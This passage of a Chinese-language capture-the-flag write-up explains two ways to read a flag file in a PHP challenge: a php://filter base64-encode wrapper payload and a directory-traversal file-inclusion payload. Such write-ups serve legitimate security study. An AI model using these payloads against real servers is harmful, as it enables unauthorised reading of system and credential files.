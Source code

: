 ## 方法一

```php
?file=php://filter/read=convert.base64-encode/resource=/flag
```

![image-20250802215746144](./NSSCTF-2.assets/image-20250802215746144.png)

base64解码即可得到flag

## 方法二

![image-20250802215904687](./NSSCTF-2.assets/image-20250802215904687.png)

因为是读取到一个文件对吧，我们是不是可以想到文件包含，想到文件包含，而且它也没有对../进行过滤，我们可以直接通过文件包含漏洞得到flag，十分的简单。

```
file=../../../../../../..//flag
```

## `file_get_contents()` 
